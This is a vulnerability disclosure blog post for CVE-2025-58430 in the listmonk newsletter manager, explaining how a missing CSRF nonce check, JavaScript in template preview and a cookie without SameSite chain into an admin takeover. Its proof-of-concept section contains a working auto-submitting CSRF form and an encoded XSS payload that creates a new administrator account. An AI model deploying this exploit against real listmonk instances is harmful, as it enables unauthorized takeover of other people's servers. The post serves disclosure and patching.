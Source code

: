```yaml
---
layout: post
title: "CSRF → XSS → Admin Takeover in listmonk (CVE-2025-58430)"
date: 2025-09-08T00:14:54+00:00
img_dir: "/assets/2025-09-09-listmonk-cve-xss"
description: "A chain of issues in listmonk allows a Cross‑Site Request Forgery (CSRF) to trigger arbitrary JavaScript execution (XSS) in the admin’s browser, culminating in a full admin account takeover"
categories: [cve]
---
```


# CSRF → XSS → Admin Takeover in listmonk (CVE-2025-58430)

**Disclosed:** September 9, 2025  
**Product:** [listmonk](https://github.com/knadh/listmonk) — self‑hosted newsletter & mailing‑list manager  
**CVE:** CVE-2025-58430  

### Project context 
listmonk is a widely used open‑source project for self‑hosted newsletters and mailing lists. It has **~17.8k GitHub stars** and **16k istances online** ([FoFa](https://fofa.info/result?qbase64=bGlzdG1vbms%3D) results) 

### Impact
- Creation of privileged users
- Execution of arbitrary actions as the admin
- Full administrative compromise of the listmonk instance




# Overview
A chain of issues in listmonk allows a Cross‑Site Request Forgery (CSRF) to trigger arbitrary JavaScript execution (XSS) in the admin’s browser, culminating in a full admin account takeover. In practice, an attacker can lure a logged‑in admin to a malicious page that silently sends a crafted request to the template preview endpoint; the injected JavaScript then executes in the admin’s context and performs privileged actions (e.g., creating a new administrator).

## Affected / Patched Versions
- **Affected:** <= v5.0.3 
- **Patched:** v5.1.0

> If you operate listmonk, treat this as **critical**: assume administrative compromise is possible and apply the mitigations below immediately.

## Technical Details
### 1) Missing server‑side CSRF enforcement
Requests include a `nonce` parameter alongside the `session` cookie; however, the backend accepts requests even when the `nonce` is absent or removed. This defeats the intended CSRF control because the token is not actually validated server‑side.

### 2) JavaScript execution in template preview
Users with permissions can create and **preview** templates via `POST /api/templates/preview`. The preview renderer permits inline JavaScript, which will run in the browser when the preview loads.

### 3) Cookie lacks SameSite
The `session` cookie is set without an explicit `SameSite` attribute, leaving behavior to browser defaults. On browsers that default to `SameSite=None`, cross‑site POSTs will include the session cookie, enabling CSRF.

### Putting it together
An attacker hosts a page that auto‑submits a POST to the template preview endpoint containing a JavaScript payload. Because the `nonce` isn’t enforced and the `session` cookie rides along cross‑site, the payload executes in the admin’s origin. That script can then issue authenticated API calls (e.g., to create a new admin user), resulting in **complete administrative takeover**.

## Proof of Concept 

Example HTTP request without nonce :

![user_creation_without_nonce_burp_request]({{ page.img_dir | relative_url }}/user_creation_without_nonce_burp_request.png) 

An admin (or any user with permissions) can create templates and preview them (`POST /api/templates/preview` ), in templates it is possible to execute javascript code, for example:

![browser_template_editor_with_alert]({{ page.img_dir | relative_url }}/browser_template_editor_with_alert.png) 

And this request can also be made without `nonce`.

![template_preview_burp_request_without_nonce]({{ page.img_dir | relative_url }}/template_preview_burp_request_without_nonce.png) 

Then an attacker can exploit this lack of validation to trigger an XSS in the victim's browser (let's assume the admin)

This is possible for 2 reasons :

1. There is no validation of the `nonce` (as mentioned above)
2. The `session` cookie has no samesite flag

![no_same_site_response_cookie_burp]({{ page.img_dir | relative_url }}/no_same_site_response_cookie_burp.png) 

As we can see from the image above, no samesite cookie policy is set during login, so the browser will use the default one.
Some browsers by default set `Lax` (Chrome), but many others use `None` (Firefox, Edge)

For example, we can host this html page to prompt the admin to make a post request

```html
<html>
  <!-- CSRF PoC  -->
  <body>
    <form action="https://target.tld/api/templates/preview" method="POST">
      <input type="hidden" name="template&#95;type" value="campaign" />
      <input type="hidden" name="body" value="&#123;&#123;&#32;template&#32;&quot;content&quot;&#32;&#46;&#32;&#125;&#125;&#13;&#10;&#13;&#10;&lt;script&gt;alert&#40;&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>


```

I tested the CSRF+XSS PoC written above on 3 browsers in their latest versions

- Chrome ❌
- Firefox ✅
- Edge ✅

Example in Firefox :

![xss_mozilla_poc]({{ page.img_dir | relative_url }}/xss_mozilla_poc.gif) 

We can now replace the simple `alert()` with any “harmful” request. request, for example the creation of a new admin account:

![browser_template_editor_with_final_payload]({{ page.img_dir | relative_url }}/browser_template_editor_with_final_payload.png)

```html
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/10.100.132.47\/api\/users", true);
        xhr.setRequestHeader("Content-Type", "application\/json");
        xhr.withCredentials = true;
        var body = "{\"username\":\"testuser4\",\"email\":\"test3@test.com\",\"name\":\"testuser4\",\"password\":\"Test12345\",\"passwordLogin\":true,\"type\":\"user\",\"status\":\"enabled\",\"listRoleId\":\"\",\"userRoleId\":1,\"password2\":\"Test12345\",\"password_login\":true,\"user_role_id\":1,\"list_role_id\":null}";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
```

So the final poc that exploits CSRF + XSS to create an admin account is like this :

```html
<html>
  <!-- CSRF PoC -->
  <body>
    <form action="https://10.100.132.47/api/templates/preview" method="POST">
      <input type="hidden" name="template&#95;type" value="campaign" />
      <input type="hidden" name="body" value="&#123;&#123;&#32;template&#32;&quot;content&quot;&#32;&#46;&#32;&#125;&#125;&#13;&#10;&#13;&#10;&#32;&#32;&#32;&#32;&lt;script&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;function&#32;submitRequest&#40;&#41;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;var&#32;xhr&#32;&#61;&#32;new&#32;XMLHttpRequest&#40;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;open&#40;&quot;POST&quot;&#44;&#32;&quot;https&#58;&#92;&#47;&#92;&#47;10&#46;100&#46;132&#46;47&#92;&#47;api&#92;&#47;users&quot;&#44;&#32;true&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;setRequestHeader&#40;&quot;Content&#45;Type&quot;&#44;&#32;&quot;application&#92;&#47;json&quot;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;withCredentials&#32;&#61;&#32;true&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;var&#32;body&#32;&#61;&#32;&quot;&#123;&#92;&quot;username&#92;&quot;&#58;&#92;&quot;testuser4&#92;&quot;&#44;&#92;&quot;email&#92;&quot;&#58;&#92;&quot;test3&#64;test&#46;com&#92;&quot;&#44;&#92;&quot;name&#92;&quot;&#58;&#92;&quot;testuser4&#92;&quot;&#44;&#92;&quot;password&#92;&quot;&#58;&#92;&quot;Test12345&#92;&quot;&#44;&#92;&quot;passwordLogin&#92;&quot;&#58;true&#44;&#92;&quot;type&#92;&quot;&#58;&#92;&quot;user&#92;&quot;&#44;&#92;&quot;status&#92;&quot;&#58;&#92;&quot;enabled&#92;&quot;&#44;&#92;&quot;listRoleId&#92;&quot;&#58;&#92;&quot;&#92;&quot;&#44;&#92;&quot;userRoleId&#92;&quot;&#58;1&#44;&#92;&quot;password2&#92;&quot;&#58;&#92;&quot;Test12345&#92;&quot;&#44;&#92;&quot;password&#95;login&#92;&quot;&#58;true&#44;&#92;&quot;user&#95;role&#95;id&#92;&quot;&#58;1&#44;&#92;&quot;list&#95;role&#95;id&#92;&quot;&#58;null&#125;&quot;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;var&#32;aBody&#32;&#61;&#32;new&#32;Uint8Array&#40;body&#46;length&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;for&#32;&#40;var&#32;i&#32;&#61;&#32;0&#59;&#32;i&#32;&lt;&#32;aBody&#46;length&#59;&#32;i&#43;&#43;&#41;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;aBody&#91;i&#93;&#32;&#61;&#32;body&#46;charCodeAt&#40;i&#41;&#59;&#32;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;xhr&#46;send&#40;new&#32;Blob&#40;&#91;aBody&#93;&#41;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;submitRequest&#40;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


## References
- GitHub Security Advisory: GHSA‑rf24‑wg77‑gq7w (CVE‑2025‑58430) — https://github.com/knadh/listmonk/security/advisories/GHSA-rf24-wg77-gq7w
- listmonk repository — https://github.com/knadh/listmonk
- listmonk documentation — https://listmonk.app/docs/